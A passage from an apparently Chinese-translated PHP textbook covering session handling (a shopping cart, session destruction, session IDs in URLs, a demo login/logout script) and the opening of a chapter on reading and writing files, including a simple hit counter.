    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
        <head>
            <title>A shopping cart using sessions</title>
            <link rel="stylesheet" type="text/css" href="common.css" />
        </head>
        <body>

        <h1>Your shopping cart</h1>

        <dl>

        <?php
        $totalPrice = 0;
        foreach ( $_SESSION["cart"] as $product ) {
            $totalPrice += $product->getPrice();
        ?>
            <dt><?php echo $product->getName() ?></dt>
            <dd><?php echo number_format( $product->getPrice(), 2 ) ?>
 <a href="shopping_cart.php?action=removeItem&productId=<?php echo
 $product->getId() ?>">Remove</a></dd>
 <?php } ?>
 <dt>Cart Total:</dt>
 <dd><strong><?php echo number_format( $totalPrice, 2 ) ?></strong></dd>
 </dl>
 <h1>Product list</h1>
 <dl>
 <?php foreach ( $products as $product ) { ?>
 <dt><?php echo $product->getName() ?> </dt>
 <dd><?php echo number_format( $product->getPrice(), 2 ) ?>
 <a href="shopping_cart.php?action=addItem&amp;productId=<?php echo
 $product->getId() ?>">Add Item</a></dd>
 <?php } ?>
 </dl>
 <?php
 }
 ?>
 </body>
 </html>
```


图 10-3

### 工作原理

脚本首先调用 `session_start()` 来创建一个新会话，或者如果该用户已有会话则沿用现有会话。然后脚本定义一个 `Product` 类来保存商店中的产品，以及一个包含三个 `Product` 对象的全局 `$products` 数组，以产品的数字 ID 作为键。（在实际场景中，您可能会将产品存储在数据库中。）

然后代码将用户的购物车初始化为空数组（如果尚不存在）。该数组作为 `$_SESSION` 超全局数组中的一个元素 `cart` 进行存储。与 `$products` 数组一样，此数组将按产品 ID 存储用户选择的产品：

```
if ( !isset( $_SESSION["cart"] ) ) $_SESSION["cart"] = array();
```

接下来的几行代码构成了脚本的主要决策逻辑，如果用户选择将项目添加到购物车，则调用 `addItem()`；如果用户选择删除产品，则调用 `removeItem()`；如果用户未选择任何选项，则调用 `displayCart()`：

```
if ( isset( $_GET["action"] ) and $_GET["action"] == "addItem" ) {
    addItem();
} elseif ( isset( $_GET["action"] ) and $_GET["action"] == "removeItem" ) {
    removeItem();
} else {
    displayCart();
}
```

`addItem()` 函数在查询字符串中查找 `productId` 字段，如果存在且有效，则通过将数组元素插入 `$_SESSION["cart"]` 数组（以产品 ID 为键）将相应的 `Product` 对象添加到用户的购物车中。然后它发送一个 `Location:` 标头以重新加载购物车：

```
function addItem() {
    global $products;
    if ( isset( $_GET["productId"] ) and $_GET["productId"] >= 1 and $_GET["productId"] <= 3 ) {
        $productId = (int) $_GET["productId"];
        if ( !isset( $_SESSION["cart"][$productId] ) ) {
            $_SESSION["cart"][$productId] = $products[$productId];
        }
    }
    session_write_close();
    header( "Location: shopping_cart.php" );
}
```

请注意，该函数在发送 `Location:` 标头之前调用 PHP 函数 `session_write_close()`。这会强制将 `$_SESSION` 数组中的数据写入服务器硬盘上的会话文件。虽然 PHP 在脚本退出时通常也会执行此操作，但在重定向或重新加载浏览器之前调用 `session_write_close()` 是个好主意，以确保 `$_SESSION` 数据写入磁盘并可用于下一次浏览器请求。

`removeItem()` 执行与 `addItem()` 相反的操作：在验证 `productId` 字段后，它从用户的购物车数组中删除相应的产品，然后刷新浏览器：

```php
function removeItem() {
    global $products;
    if ( isset( $_GET["productId"] ) && $_GET["productId"] >= 1 && $_GET["productId"] <= 3 ) {
        $productId = (int) $_GET["productId"];

        if ( isset( $_SESSION["cart"][$productId] ) ) {
            unset( $_SESSION["cart"][$productId] );
        }
    }

    session_write_close();
    header( "Location: shopping_cart.php" );
}
```

最后，`displayCart()` 显示用户的购物车以及可用产品列表。在显示 XHTML 页面标题后，该函数遍历购物车中的每个项目，显示产品名称、价格和一个“删除”链接，用户可以使用该链接将产品从购物车中移除。它在遍历过程中还会计算购物车中所有产品的总价，然后在购物车下方显示总计：

```php
<dl>
<?php
$totalPrice = 0;
foreach ( $_SESSION["cart"] as $product ) {
    $totalPrice += $product->getPrice();
?>
    <dt><?php echo $product->getName() ?></dt>
    <dd><?php echo number_format( $product->getPrice(), 2 ) ?>
    <a href="shopping_cart.php?action=removeItem&amp;productId=<?php echo $product->getId() ?>">Remove</a></dd>
<?php } ?>
    <dt>Cart Total:</dt>
    <dd><strong><?php echo number_format( $totalPrice, 2 ) ?></strong></dd>
</dl>
```

`displayCart()` 函数随后列出可用产品及其价格。每个产品都有一个相应的“添加项目”链接，购物者可以使用该链接将产品添加到购物车中：

```php
<dl>
<?php foreach ( $products as $product ) { ?>
    <dt><?php echo $product->getName() ?></dt>
    <dd><?php echo number_format( $product->getPrice(), 2 ) ?>
    <a href="shopping_cart.php?action=addItem&amp;productId=<?php echo $product->getId() ?>">Add Item</a></dd>
<?php } ?>
</dl>


在这个简单的示例中，购物者只能将每种产品添加一件到购物车中。当然，在实际情况中，你可能会允许购物者添加多于一件的每种产品。

## 销毁会话

如前所述，默认情况下，当用户退出浏览器时，PHP 会话会自动删除，因为 `PHPSESSID` Cookie 的 `expires` 字段被设置为零。但是，有时你可能想立即销毁会话。例如，如果购物者已通过你的在线商店结账并下单，你可以通过销毁他的会话来清空他的购物车。

要销毁会话，只需调用内置的 `session_destroy()` 函数：

```
session_destroy();
```

不过要注意的是，这仅从磁盘中擦除了会话数据。数据会留在 `$_SESSION` 数组中，直到当前脚本执行结束。因此，要确保所有会话数据都已被擦除，你还应该初始化 `$_SESSION` 数组：

```
$_SESSION = array();
session_destroy();
```

即便如此，会话的痕迹仍以 `PHPSESSID` Cookie 的形式保留在用户的浏览器中。当用户下次访问你的网站时，PHP 会读取 `PHPSESSID` Cookie 并重新创建会话（尽管重新创建的会话中不会包含任何数据）。因此，要真正确保从服务器和浏览器中都清除了会话，你还应该销毁会话 Cookie：

```
if ( isset( $_COOKIE[session_name()] ) ) {
    setcookie( session_name(), "", time()-3600, "/" );
}
```

```
$_SESSION = array();
session_destroy();
```

这段代码片段使用了另一个 PHP 函数 `session_name()`。该函数仅返回会话 Cookie 的名称（默认情况下为 `PHPSESSID`）。

PHP 实际上允许你通过使用 `session_name()` 创建不同命名的会话，在同一脚本中处理多个会话。此主题超出了本书的范围，但你可以在 PHP 手册（http://www.php.net/session）的“会话处理”部分了解更多信息。

## 在查询字符串中传递会话 ID

如你所知，PHP 会话 ID 保存在 Cookie 中。但是，如果用户在浏览器中禁用了 Cookie，会发生什么情况呢？一种显而易见的方法是在页面上添加一些文本，礼貌地请求用户启用 Cookie。另一种替代方案是在网站页面之间的链接中传递会话 ID。

PHP 通过内置的 SID 常量帮助自动化此过程。如果浏览器支持 Cookie，该常量为空；但是，如果无法在浏览器上设置会话 Cookie，SID 包含类似下面的字符串：

```
PHPSESSID=b8306b025a76a250f0428fc0efd20a11
```

这意味着你可以在页面的链接中（如果可用）包含会话 ID 来编写代码：

```
<?php session_start() ?>
<a href="myscript.php?<?php echo SID; ?>">主页</a>
```

如果会话 ID 已成功存储在浏览器 Cookie 中，前面的代码将输出：

```
<a href="myscript.php">主页</a>
```

但是，如果 PHP 无法创建会话 Cookie，代码将输出类似以下的内容：

```
<a href="myscript.php?PHPSESSID=5bf28931309ba166b3a3ea8b67ff1c57">
主页</a>
```

当用户单击链接以查看 myscript.php 时，PHPSESSID 查询字符串值会被 PHP 引擎自动读取，会话数据将提供给脚本。

> 请注意，在尝试访问 SID 常量之前，你需要先调用 session_start()。

尽管此功能很方便，但如果可能，最好避免在 URL 中传递会话 ID。访客很容易将包含其会话 ID 的链接通过电子邮件发送给朋友，从而无意中让朋友访问她的会话！你可以通过设置较短的会话 Cookie 生命周期来在某种程度上缓解这一问题（参见下一节），但总体而言，如果可能，最好仅使用 Cookie。

你也可以通过调用 session_id() 函数来检索当前会话 ID。这样，你可以（例如）将会话 ID 嵌入表单中的隐藏 PHPSESSID 字段，以便会话可以跨表单提交传播。

## 更改会话行为

你可以通过多种方式更改 PHP 的默认会话处理行为。php.ini 文件包含你可以更改的几个配置指令：

| Directive | Description |
| :--- | :--- |
| session.cookie_lifetime | 会话 Cookie 应持续的时间（以秒为单位）。默认值为零，即在退出浏览器时过期 Cookie。将其设置为较长值（例如 1 年）可创建半永久会话来存储用户偏好等数据。或者，为了提高登录会话等会话的安全性，将其设置为较短值，例如 20 分钟。这样，如果用户两次页面请求之间等待超过 20 分钟，会话将超时。 |
| session.cookie_path | 会话 Cookie 的路径字段。默认为 "/"（整个站点）。如果要将会话限制在特定文件夹内的脚本中，请将其设置为网站的子目录。 |
| session.cookie_domain | 会话 Cookie 的域字段。默认为 ""（当前服务器）。如果要使会话在同一域中的多个主机上可用，请更改此项。 |
| session.cookie_httponly | 会话 Cookie 的 HttpOnly 字段。默认为 false。如果要防止 JavaScript 访问会话 Cookie，请将其更改为 true。 |
| session.auto_start | 默认为 false。将其更改为 true，PHP 将在脚本开始执行时自动启动会话，省去调用 session_start() 的麻烦。但需注意；如果设置为 true，你无法在会话中存储对象（因为加载会话数据时你的类尚未定义）。 |

你可以直接在 php.ini 文件中更改这些指令（如果你有权访问它，详情请参见附录 B），也可以使用 PHP 的 ini_set() 函数在每个脚本的基础上对其进行设置：

```
ini_set( "session.cookie_lifetime", 1200 ); // Set session timeout to 20 minutes
```

除了更改会话行为，你甚至可以编写自定义代码来在服务器上存储会话数据。例如，你可能更愿意将数据存储在数据库中，而不是让 PHP 将其存储在临时文件中。如何做到这一点超出了本书的范围，但你可以通过阅读 http://www.php.net/manual/en/function.session-set-save-handler.php 了解更多信息。

## 试一试 创建用户登录系统

会话的一个常见用途是允许网站的注册用户登录网站，以便访问其帐户并执行操作。例如，你的在线商店的客户可以登录以查看其订单历史记录；同样，基于 Web 的电子邮件系统的用户需要登录系统以查看电子邮件。另外，用户使用完系统后，需要注销。

会话是构建登录系统的一种相对安全的方式，因为浏览器中存储的唯一信息是难以猜测的会话 ID。虽然用户登录时需要从浏览器发送登录用户名和密码，但这仅在登录过程中发生。对于其他每个请求，浏览器只会发送会话 ID。

以下脚本允许用户使用预定义的用户名（“john”）和密码（“secret”）登录。然后它将显示一条欢迎消息，并提供注销选项。将其保存为 login.php，然后在 Web 浏览器中运行该脚本。在登录页面（图 10-4）上，使用用户名和密码登录以查看欢迎消息（图 10-5），然后注销以返回登录表单。

```
<?php
session_start();
define( "USERNAME", "john" );
define( "PASSWORD", "secret" );

if ( isset( $_POST["login"] ) ) {
    login();
} elseif ( isset( $_GET["action"] ) and $_GET["action"] == "logout" ) {
    logout();
} elseif ( isset( $_SESSION["username"] ) ) {
    displayPage();
} else {
    displayLoginForm();
}

function login() {
    if ( isset( $_POST["username"] ) and isset( $_POST["password"] ) ) {
        if ( $_POST["username"] == USERNAME and $_POST["password"] == PASSWORD ) {
        $_SESSION["username"] = USERNAME;
        session_write_close();
        header( "Location: login.php" );
        } else {
        displayLoginForm( "Sorry, that username/password could not be found.\nPlease try again." );
        }
    }
}

function logout() {
    unset( $_SESSION["username"] );
    session_write_close();
    header( "Location: login.php" );
}
```


```php
function displayPage() {
    displayPageHeader();
?>
<p>Welcome, <strong><?php echo $_SESSION["username"] ?></strong>! You are
currently logged in.</p>
<p><a href="login.php?action=logout">Logout</a></p>
</body>
</html>
<?php
}

function displayLoginForm( $message="" ) {
    displayPageHeader();
?>
    <?php if ( $message ) echo '<p class="error">' . $message . '</p>' ?>
<form action="login.php" method="post">
<div style="width: 30em;">
<label for="username">Username</label>
<input type="text" name="username" id="username" value="" />
<label for="password">Password</label>
<input type="password" name="password" id="password" value="" />
<div style="clear: both;">
<input type="submit" name="login" value="Login" />
</div>
</div>
</form>
</body>
</html>
<?php
}

function displayPageHeader() {
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>A login/logout system</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; }
</style>
</head>
<body>
<h1>A login/logout system</h1>
<?php
}
?>
```


图 10-4


图 10-5

## 如何工作

脚本首先通过`session_start()`创建一个新会话（或获取现有会话）。然后它定义几个常量，`USERNAME`和`PASSWORD`，用于存储预定义的登录详细信息。（在实际网站中，你可能会在数据库表或文本文件中为每个用户存储单独的用户名和密码。）

```
session_start();
    define( "USERNAME", "john" );
    define( "PASSWORD", "secret" );
```

接下来，脚本根据用户输入调用各种函数。如果单击了登录表单中的登录按钮，脚本将尝试使用户登录。同样，如果单击了登出链接，用户将被登出。如果当前用户已登录，则显示欢迎消息；否则显示登录表单：

```
if ( isset( $_POST["login"] ) ) {
    login();
} elseif ( isset( $_GET["action"] ) and $_GET["action"] == "logout" ) {
    logout();
} elseif ( isset( $_SESSION["username"] ) ) {
    displayPage();
} else {
    displayLoginForm();
}
```

`login()`函数验证用户名和密码，如果正确，则将会话变量`$_SESSION["username"]`设置为登录用户的用户名。这有两个用途：它向脚本的其余部分指示用户当前已登录，并且还以用户名的形式存储用户身份。（在多用户系统中，这将允许网站识别哪个用户已登录。）然后函数重新加载页面。但是，如果输入了错误的用户名或密码，登录表单将重新显示并显示错误消息：

```
function login() {
    if ( isset( $_POST["username"] ) and isset( $_POST["password"] ) ) {
        if ( $_POST["username"] == USERNAME and $_POST["password"] == PASSWORD ) {
            $_SESSION["username"] = USERNAME;
            session_write_close();
            header( "Location: login.php" );
        } else {
            displayLoginForm( "Sorry, that username/password could not be found. Please try again." );
        }
    }
}
```

`logout()`函数仅删除`$_SESSION["username"]`元素以登出用户，然后重新加载页面：

```
function logout() {
    unset( $_SESSION["username"] );
    session_write_close();
    header( "Location: login.php" );
}
```

最后三个函数都相当自解释。`displayPage()`显示欢迎消息，以及登出链接。`displayLoginForm()`显示登录页面，可选地显示错误消息。这两个函数都使用一个实用函数`displayPageHeader()`来显示两个页面共用的页头标记。

## 摘要

当PHP脚本能够半永久地存储数据时，它们就会变得非常有用。在本章中，你学习了如何使用三种不同的技术——查询字符串、Cookie和会话——在页面请求之间存储与特定用户相关的数据：

- 查询字符串易于理解和使用，但完全不安全，因此最适合传输无害的信息。你学习了如何使用`urlencode()`和`http_build_query()`构建查询字符串，以及如何从查询字符串读取数据，并且创建了一个使用查询字符串创建分页显示的简单示例。

- Cookie比查询字符串高一个级别，因为你不必在每个页面请求之间传递数据。即使浏览器关闭并重新打开，Cookie也可以持续存在。你学习了Cookie的结构，并学习了如何创建Cookie，通过`$_COOKIE`超全局变量读取Cookie以及删除Cookie。你还编写了一个使用Cookie来记住访问者详细信息的脚本。

- 会话相对于Cookie有几个主要优势：它们更安全，并且在每次查看页面时不需要向服务器发送潜在的大量数据。你探索了PHP的内置会话处理功能，包括`session_start()`、`$_SESSION`超全局变量、`session_write_close()`和`session_destroy()`。你了解到，虽然不建议这样做，但你可以在浏览器不支持Cookie的情况下将会话ID传递给查询字符串，并且你研究了一些调整PHP会话行为的方法。最后，你使用会话创建了一个简单的购物车和用户登录/登出系统。

既然你已经知道如何保存状态，就可以开始编写更强大、持久的Web应用程序，这些应用程序可以在页面浏览之间记住会话信息。

在下一章中，你将学习如何从PHP脚本中访问Web服务器的文件系统。这意味着你可以将应用程序数据和其他信息存储在服务器硬盘上的文件中，进一步扩展Web应用程序的功能。

在离开本章之前，请查看以下两个练习，它们将测试你对PHP中Cookie和会话处理的知识。你可以在附录A中找到这些练习的解决方案。

## 练习

- 编写一个使用Cookie来记住访问者第一次访问页面距离现在有多久的脚本。在页面上以分钟和秒显示此值。

- 在第9章中，你使用隐藏表单字段创建了一个三步注册表单。重写此脚本以使用会话存储输入的表单数据，以便用户可以在其他时间返回表单并从中断处继续。请记住，在注册过程完成后，从会话中删除输入的数据。

## 11

### 使用文件和目录

作为服务器端编程语言，PHP允许你处理存储在Web服务器上的文件和目录。这非常有用，因为这意味着你的PHP脚本可以在脚本本身之外存储信息。

文件存储在硬盘的目录中，并且因为它们在计算机关机后仍保留数据，所以它们是一种*持久的*存储机制，而不是像RAM这样的临时存储。目录是一种专门用于存储其他文件的特殊文件。目录在其他目录中分层创建，从根（顶级）目录开始，然后向下进行。

文件可以包含任何类型的数据，并且还可以包含大量关于其自身的信息，例如谁拥有它们以及它们的创建时间。PHP通过包含允许你获取文件信息、以及打开、读取和写入文件的函数，使处理文件系统变得容易。

本章全部关于处理文件系统的PHP函数。你将学习：

- 更多关于文件和目录，以及如何在脚本中获取更多关于它们的信息
- 如何打开和关闭文件，以及如何从文件读取数据和向文件写入数据
- 文件权限的概念以及如何处理它们
- 如何复制、移动和删除文件
- 关于处理目录的所有内容，包括读取其内容、创建它们以及删除它们

除了学习文件和目录处理的理论之外，你还将编写一个可以遍历目录树并列出其沿途找到的所有文件和目录的脚本。你还将创建一个简单的基于Web的文本编辑器，以说明本章涵盖的许多要点。


## 了解文件和目录

你的硬盘上的所有内容都以一种或另一种文件形式存储，尽管大多数人习惯于用文件和目录来思考。有普通的程序文件、数据文件、充当目录的文件，以及帮助硬盘跟踪文件夹和文件内容的特殊文件。PHP 提供了可处理任何文件类型的函数，但通常你会处理包含数据的文本文件。

> *本书（以及 PHP 社区）中“目录”和“文件夹”这两个术语可以互换使用；它们的含义完全相同。*

文件只不过是存储在硬盘或其他存储介质上的有序字节序列。目录是一种特殊的文件，用于存储文件夹内文件和目录的名称（有时称为子目录或子文件夹）以及指向其在介质上的存储区域的指针。

基于 UNIX 的操作系统和 Windows 操作系统之间存在许多差异，其中之一就是指定目录路径的方式。Linux 等基于 UNIX 的系统使用斜杠来分隔路径中的元素，如下所示：

```
`/home/matt/data/data.txt`
```

Windows 使用反斜杠：

```
`C:\MyDocs\data\data.txt`
```

幸运的是，在大多数情况下，Windows 上的 PHP 会自动将前者转换为后者，因此无论脚本运行在哪种操作系统上，你都可以在脚本中安全地使用斜杠。不过，偶尔也需要使用反斜杠。在这种情况下，你需要连续使用两个反斜杠，因为 PHP 将反斜杠解释为转义其后的字符：

```
`"C:\\MyDocs\\data\\data.txt"`
```

## 获取文件信息

PHP 提供了一些函数，使你能够访问有用的文件信息。例如，你可以使用 `file_exists()` 来在尝试打开文件之前发现该文件是否存在：

```
`file_exists( "/home/chris/myfile.txt" )`
```

如果指定路径处的文件存在，`file_exists()` 返回 true，否则返回 false。

类似地，你可以使用 `filesize()` 函数来确定硬盘上文件的大小。与 `file_exists()` 一样，此函数接受文件名作为参数：

```
`filesize( "/home/chris/myfile.txt" )`
```

这将以字节为单位返回指定文件的大小，出错时返回 false。

### 与时间相关的属性

除了内容之外，文件还有其他可提供有用信息的属性。可用属性取决于创建和修改文件的操作系统。例如，在 Linux 等 UNIX 平台上，属性包括文件上次修改的时间、上次访问的时间以及文件上设置的用户权限。

PHP 提供了三个与时间相关的文件函数：

- `fileatime()` — 以 UNIX 时间戳形式返回文件上次访问的时间。如果读取了文件内容，则认为该文件已被访问
- `filectime()` — 以 UNIX 时间戳形式返回文件上次更改的时间。如果创建或写入了文件，或更改了其权限，则认为该文件已被更改
- `filemtime()` — 以 UNIX 时间戳形式返回文件上次修改的时间。如果创建了文件或更改了其内容，则认为该文件已被修改

> UNIX 时间戳是一个整数值，表示 UNIX 纪元（1970 年 1 月 1 日午夜）与指定时间和日期之间的秒数。

在处理 UNIX 时间戳时，getdate() 函数非常有用。它返回一个关联数组，包含时间戳中的日期信息。该数组包括年份、月份、月中的日期等值。例如，你可以将变量 $myDate 设置为 getdate() 返回的值，然后使用 $myDate["month"] 访问月份组件。

> 有关处理日期和时间的更多信息，请参见第 16 章。

### 从路径中检索文件名

将文件名从其目录路径中分离出来通常非常有用，而 basename() 函数正是如此，它接受完整的文件路径并仅返回文件名。例如，以下代码将 index.html 分配给 $filename：

```
$filename = basename( "/home/james/docs/index.html" );
```

你也可以指定目录路径，在这种情况下将返回最右侧的目录名称。以下示例将值 docs 分配给 $dir：

```
$dir = basename( "/home/james/docs" );
```

基本上，basename() 检索最右侧斜杠后的最后一个完整字符串。

如果不想要文件扩展名或后缀，也可以通过将后缀作为第二个参数提供给 basename() 来将其去除。以下示例将 "myfile" 分配给 $filename：

```
$filename = basename( "/home/james/docs/myfile.doc", ".doc" );
```

## 打开和关闭文件

通常，要在 PHP 脚本中处理文件，你首先需要打开文件。打开文件时，你会创建一个文件句柄。文件句柄是与打开的文件关联的指针，你可以使用它来访问文件内容。使用完文件后，你会将其关闭，从而从内存中删除文件句柄。

*文件句柄是资源数据类型。数据类型已在第 3 章中介绍。*

*某些 PHP 函数允许你直接处理文件，无需打开或关闭它。你将在本章后面了解这些函数。*

在接下来的章节中，你将学习使用 `fopen()` 函数打开文件，以及使用 `fclose()` 函数关闭文件。

### 使用 fopen() 打开文件

`fopen()` 函数打开文件并返回与该文件关联的文件句柄。传递给 `fopen()` 的第一个参数指定要打开的文件名，第二个参数指定 *模式*，即文件的使用方式。例如：

```
$handle = fopen( "./data.txt", "r" );
```

第一个参数可以只是一个文件名（`"data.txt"`），在这种情况下 PHP 将在当前目录中查找该文件，也可以是指向文件的相对（`"./data.txt"`）或绝对（`"/myfiles/data.txt"`）路径。你甚至可以指定远程 Web 或 FTP 服务器上的文件，如以下示例所示：

```
$handle = fopen( "http://www.example.com/index.html", "r" );
$handle = fopen( "ftp://ftp.example.com/pub/index.txt", "r" );
```

*远程文件只能以读取方式打开 — 你不能写入文件。*

> 如果你不熟悉命令行文件操作，可能会对当前目录和相对路径表示法的概念感到有些困惑。
>
> 通常，当前目录与脚本所在的目录相同，但你可以通过调用 `chdir()` 来更改它。这将在本章后面介绍。
>
> 在相对路径中，点（`.`）表示当前目录，两个点（`..`）表示紧邻的父目录。例如，`./data.txt` 指向当前目录中名为 `data.txt` 的文件，`../data.txt` 指向当前目录上一级目录中名为 `data.txt` 的文件。`../../../data.txt` 会先在目录树中向上回溯三级，然后再查找 `data.txt` 文件。
>
> 与此同时，绝对路径以 /（斜杠）开头，表明该路径相对于文件系统的根目录，而不是当前目录。例如，`/home/chris/website/index.php` 是一个绝对路径。

传递给 `fopen()` 的第二个参数告诉 PHP 你将如何使用文件。它可以采用以下字符串值之一：

| 值 | 说明 |
|---|---|
| r | 仅以读取方式打开文件。文件指针位于文件开头。 |
| r+ | 以读取和写入方式打开文件。文件指针位于文件开头。 |
| w | 仅以写入方式打开文件。任何现有内容都将丢失。如果文件不存在，PHP 会尝试创建它。 |
| w+ | 以读取和写入方式打开文件。任何现有文件内容都将丢失。如果文件不存在，PHP 会尝试创建它。 |
| a | 仅以追加方式打开文件。数据会写入现有文件的末尾。如果文件不存在，PHP 会尝试创建它。 |
| a+ | 以读取和追加方式打开文件。数据会写入现有文件的末尾。如果文件不存在，PHP 会尝试创建它。 |

*文件指针是 PHP 的内部指针，用于指定文件中下一次操作应执行的精确字符位置。*

你还可以将值 `b` 追加到参数中，以指示打开的文件应被视为二进制文件（这是默认设置）。或者，你可以追加 `t` 将文件视为文本文件，在这种情况下，PHP 在读取或写入文件时会尝试将行尾字符转换为操作系统的标准或从操作系统的标准转换。例如，要以二进制模式打开文件，请使用：

```
$handle = fopen( "data.txt", "rb" );
```

虽然此标志对于 Linux 和 Mac OS X 等类 UNIX 平台无关紧要（因为它们将文本文件和二进制文件视为相同），但如果你处理的是在 Windows 计算机上创建的文件，可能会发现文本模式很有用。Windows 使用回车符后跟换行符来表示行尾（Linux 和 Mac 仅使用换行符）。

话虽如此，出于可移植性考虑，建议使用二进制模式。如果你需要让不同平台上的其他应用程序能够读取你的应用程序数据文件，应该使用二进制模式，并编写代码以使用运行平台的适当行尾字符。（PHP 常量 `PHP_EOL` 为此很有用；它存储了 PHP 运行所在操作系统适用的行尾字符。）


默认情况下，如果你指定的文件名既不是相对路径也不是绝对路径（例如 "data.txt"），PHP 只会在当前（脚本）目录中查找该文件。不过，你可以选择将 true 作为第三个参数传递给 fopen()，在这种情况下，PHP 还会在包含路径中搜索该文件。

关于包含路径的更多信息，请参见第 20 章。

如果打开文件时出现问题，fopen() 返回 false 而不是文件句柄资源。对文件和目录的操作容易出错，因此在使用它们时应始终预留出错处理空间。使用某种形式的错误检查过程是良好实践，以便在发生错误时（也许你没有必要的权限访问文件，或者文件不存在），你的脚本能优雅地处理错误。例如：

```
if ( ! ( $handle = fopen( "./data.txt", "r" ) ) ) die( "Cannot open the file" );
```

与其使用 die() 退出，你可能更愿意引发错误或抛出异常。关于错误处理的更多信息，请参见第 20 章。

## 使用 fclose() 关闭文件

处理完文件后，需要将其关闭。可以使用 fclose() 来完成，将打开文件的句柄作为单个参数传入，如下所示：

```
fclose( $handle );
```

尽管在脚本终止时 PHP 应该自动关闭所有打开的文件，但将文件在脚本中处理完毕后立即关闭是良好实践，因为这样可以更快地释放文件供其他进程和脚本——甚至是对同一脚本的其他请求——使用。

## 读取和写入文件

既然你知道如何打开和关闭文件，是时候了解如何在文件中读取和写入数据了。在以下部分中，你将了解这些函数：

- fread() — 从文件中读取字符串
- fwrite() — 将字符串写入文件
- fgetc() — 每次读取一个字符
- feof() — 检查是否已到达文件末尾
- fgets() — 每次读取一行
- fgetcsv() — 读取一行逗号分隔的值
- file() — 将整个文件读入数组
- file_get_contents() — 无需打开文件即可将整个文件读入字符串
- file_put_contents() — 无需打开文件即可将整个字符串写入文件
- fpassthru() — 显示打开文件的内容
- readfile() — 无需打开文件即可显示文件的内容
- fseek() — 将文件指针移动到打开文件中的特定位置
- ftell() — 返回文件指针的位置
- rewind() — 将文件指针移动到文件开头

可以看到，PHP 提供了多种读取和写入文件的方式，因此你总能找到适合自己需求的函数！

### 读取和写入字符串

`fread()` 函数可用于从文件中读取字符串。它接受两个参数：文件句柄和要读取的字符数。该函数读取指定数量的字符（如果到达文件末尾，则读取更少），并将其作为字符串返回。例如：

```
$handle = fopen( "data.txt", "r" );
$data = fread( $handle, 10 );
```

这段代码从 data.txt 读取前十个字符，并将其作为字符串赋值给 $data。

> 处理二进制文件时，一个字符始终为一个字节长，因此十个字符等于十个字节。但是，处理 Unicode 文件时不适用此规则，其中每个字符可能占用多个字节。在这种情况下，读取十个字符实际上可能会从文件中读取，比如说，二十个字节。

`fread()` 完成后，保存文件中当前位置的文件指针会在文件中向前移动读取的字符数。因此，运行前面的示例代码后，文件指针会移动到文件开头之后十个字符处。如果重复调用 `fread()`，你将得到文件中的下一个十个字符。如果文件中剩余要读取的字符少于十个，`fread()` 只会读取并返回剩余的所有字符。顺便说一句，如果你想一次只读取一个字符，可以使用 `fgetc()` 函数。`fgetc()` 接受单个参数——文件句柄——并返回它所指向文件中的一个字符；当到达文件末尾时，它返回 `false`：

```
$one_char = fgetc( $handle );
```

但是，处理大文件时 `fgetc()` 速度较慢。使用 `fread()` 一次读取一批字符，或使用本章提到的其他文件读取函数之一，速度更快。

可以使用 `fwrite()` 函数将数据写入文件。它需要两个参数：文件句柄和要写入文件的字符串。该函数将字符串的内容写入文件，并返回写入的字符数（如果发生错误，则返回 `false`）。例如：

```
$handle = fopen( "data.txt", "w" );
fwrite( $handle, "ABCxyz" );
```

第一行以写入方式打开文件 data.txt，这会擦除文件中的任何现有数据。（如果文件不存在，PHP 会尝试创建它。）第二行将字符串 "ABCxyz" 写入文件开头。与 fread() 类似，文件指针会移动到写入字符串之后的位置；如果重复第二行，fwrite() 会再次追加相同的六个字符，因此文件将包含字符 "ABCxyzABCxyz"。

可以通过将整数作为第三个参数来限制写入的字符数。该函数在写入这么多字符后停止（或在到达字符串末尾时停止，以先发生者为准）。例如，以下代码将 "abcdefghij" 的前四个字符（即 "abcd"）写入文件：

```
fwrite( $handle, "abcdefghij", 4 );
```

## 试一试

### 简单的命中计数器

Web 脚本非常流行的一种用途是命中计数器，用于显示网页被访问了多少次，从而反映网站的受欢迎程度。命中计数器有多种形式，最简单的是文本计数器。下面是一个此类计数器的简单脚本：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Hit counter</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>A simple hit counter</h1>

<?php

$counterFile = "./count.dat";

if ( !file_exists( $counterFile ) ) {
    if ( !($handle = fopen( $counterFile, "w" )) ) {
    die( "Cannot create the counter file." );
    } else {
    fwrite( $handle, 0 );
    fclose( $handle );
    }
}

if ( !($handle = fopen( $counterFile, "r" )) ) {
    die( "Cannot read the counter file." );
}

$counter = (int) fread( $handle, 20 );
fclose( $handle );

$counter++;

echo "<p>You're visitor No. $counter.</p>";

if ( ! ( $handle = fopen( $counterFile, "w" ) ) ) {
    die( "Cannot open the counter file for writing." );
}

fwrite( $handle, $counter );
fclose( $handle );
?>
</body>
</html>
```

将此脚本保存为 hit_counter.php 并试一试。图 11-1 显示了示例运行。


图 11-1

一开始，你将看到 “You're visitor No. 1”。如果现在重新加载页面，你将看到计数器变为 2。每次重新加载时，计数器都会加 1。

## 工作原理

显示页面标题后，脚本将存储命中计数文件的文件名：

```
$counterFile = "./count.dat";
```

接下来，脚本检查计数器文件是否存在。如果不存在，它会通过以写入方式打开文件、向其中写入零（从而将命中计数初始化为零），然后关闭它来创建文件：

```
if ( !file_exists( $counterFile ) ) {
    if ( ! ( $handle = fopen( $counterFile, "w" ) ) ) {
        die( "Cannot create the counter file." );
    }
    else {
        fwrite( $handle, 0 );
        fclose( $handle );
    }
}


## 测试文件结束

接下来，计数器文件以读取方式打开：

```
if ( ! ( $handle = fopen( $counterFile, "r" ) ) ) {
    die( "Cannot read the counter file." );
}
```

脚本现在使用文件句柄从打开的文件中读取点击计数器值。如您所见，脚本调用 fread() 从数据文件中最多读取 20 个字节（足以存储非常大的整数）：

